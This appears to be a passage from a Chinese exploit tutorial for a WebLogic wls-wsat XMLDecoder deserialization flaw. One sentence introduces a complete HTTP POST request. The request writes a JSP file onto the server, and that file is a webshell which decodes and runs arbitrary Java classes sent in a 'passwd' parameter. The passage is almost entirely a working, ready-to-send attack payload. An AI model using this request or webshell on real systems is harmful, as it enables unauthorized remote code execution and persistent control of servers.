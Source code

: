 还可以上传webshell，发送如下请求：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 1572


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
